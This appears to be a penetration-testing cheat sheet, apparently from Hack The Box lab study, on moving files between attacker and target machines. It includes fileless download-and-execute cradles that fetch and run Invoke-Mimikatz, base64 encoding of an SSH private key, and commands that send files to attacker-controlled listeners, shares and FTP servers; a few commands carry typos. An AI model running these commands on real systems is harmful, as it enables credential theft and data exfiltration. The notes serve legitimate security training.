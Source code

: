 ### Base 64 transfer file without actually downloading anything

Check HASH of original file 
```shell
md5sum id_rsa
```
Encode to base 64 
```shell
cat id_rsa |base64 -w 0;echo
```
Copy and paste across, decode with powershell

```powershell
PS C:\htb> [IO.File]::WriteAllBytes("Details.txt", [Convert]::FromBase64String("<base 64>"))
```

# Downloads
## PowerShell Web Downloads
[Using System.Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0)

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

### Fileless
Download and execute directly. 
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Slow Method:
```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### Common PowerShell errors

#### Internet Explorer first launch has not been configured 
```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX
```

#### Certificate Not Trusted
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```


## SMB Downloads

Create an SMB Share 
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
Copy the file 
```cmd-session
copy \\<local>\<file>
```

Security Policy Issue?
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd
net use n: \\192.168.220.133\share /<user>:<test> <folder>
```

## FTP Downloads 
Set Up FTP server 
```shell
sudo pip3 install pyftpdlib
```

```shell
sudo python3 -m pyftpdlib --port 21
```

```powershell
(New-Object(Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```
### Command File 

```shell
echo open <ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET <file> >> ftpcommand.txt
echo bye >> ftpcommand.txt
```
```cmd-session
ftp -v -n -s:ftpcommand.txt
```

# Upload
### Base 64 
```powershell
[Convert]::ToBase64String((Get-Content -path "<path>" -Encoding byte))
```

```shell
echo <flie | base64 -d > <filename>
```

```shell
md5sum hosts 
```

### Web Uploads 
```shell
pip3 install uploadserver
```
```shell
python3 -m uploadserver
```

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://<ip>:8000/upload -File <path to file>
```

#### Base 64 uploads
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<path to file>))
```

```shell
nc -lvnp 8000
```

```powershell
Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
```

### SMB Uploads 
[SMB is often prevented from leaving local network](https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a)

SMB over HTTP with WebDav.WebDAV
```shell
sudo pip install wsgidav cheroot
```
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
attempt to connect to share 
```cmd-session
dir \\<ip>\Directory
```
Upload Files 
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
### FTP Uploads 

```shell
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'path to file')
```

#### Command File
```shell
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
# [PowerShell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)

By default creates HTTP and HTTPS listeners.

Confirm WinRM port 5985 is Open on Computer. 
```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
Create powershell remote session 
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```
Attacker to Target:
```powershell
Copy-Item -Path <local machine file path> -ToSession $Session -Destination <output>
```
Target to Attacker 
```powershell
Copy-Item -Path "<file path>" -Destination C:\ -FromSession $Session
```


# RDP
## Shared Folders
### rdesktop 
```shell
rdesktop <ip> -d HTB -u <user> -p '<password>' -r disk:linux='<folder loc>'
```

### xfreerdp
```shell
xfreerdp /v:<ip> /d:HTB /u:<user> /p:'<passsword>' /drive:linux,<folder loc> /scale-desktop:200 /scale:180
```

